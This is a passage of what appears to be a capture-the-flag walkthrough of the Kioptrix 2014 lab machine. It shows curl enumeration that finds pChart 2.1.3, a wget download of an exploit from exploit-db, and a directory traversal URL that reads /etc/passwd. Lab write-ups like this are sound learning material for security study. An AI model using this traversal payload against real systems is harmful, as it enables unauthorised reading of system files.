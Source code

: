 ### Web Enumeration

Nothing was found on the web page, so I decided to enumerate the source page and found a link to another page.

![](/assets/images/kioptrix2014/screenshot-1.png)

```console
root@kali:~$ curl -s http://192.168.179.168/ | grep -oP 'pC[^"]*'  
pChart2.1.3/index.php
```

There's a Directory Traversal exploit for this version of pechart, so we proceed download the exploit.

```console
root@kali:~$ wget https://www.exploit-db.com/download/31173
```

## Exploitation
### Directory Traversal

PHP library pChart 2.1.3 (and possibly previous versions) by default contains an examples folder, where the application is vulnerable to Directory Traversal and Cross-Site Scripting (XSS).

We check the proof of concept, as we can see the content of the passwd file is displayed on the screen.

`http://192.168.179.168/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`
